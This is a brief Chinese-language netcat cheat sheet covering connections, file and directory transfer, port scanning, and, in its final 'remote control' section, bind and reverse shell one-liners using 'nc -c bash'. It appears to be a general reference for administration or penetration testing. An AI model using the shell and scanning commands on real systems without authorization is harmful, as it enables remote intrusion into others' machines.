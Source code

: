 ## nc

### 基本通讯

`server: nc -lp port`    监听`port` ，等待连接

`client :   nc -nv ip port`   连接服务器端

### 文件传递

`server : nc -lp port < file -q 1`   把文件放到`port` 等待连接的客户端下载

`client : nc -nv ip port > file `     连接服务器下载文件

或者

`server : nc -lp port > file` 等待连接的客户端上传文件

`client :  nc -nv ip port < file`   上传文件

### 传目录

思路:先打包再传递

`tar -cvf - file | nc -nv ip port`

`nc -lp port | tar -xvf  -`

### 端口扫描

参数 `z `默认无`TCP`，加上u 为`UDP`扫描

`nc -z -nv ip port`

`nc -zu -nv ip port`

### 远程控制

`nc -lp port -c bash`

`nc ip port`

或者

`nc -lp port`

`nc ip port -c bash`









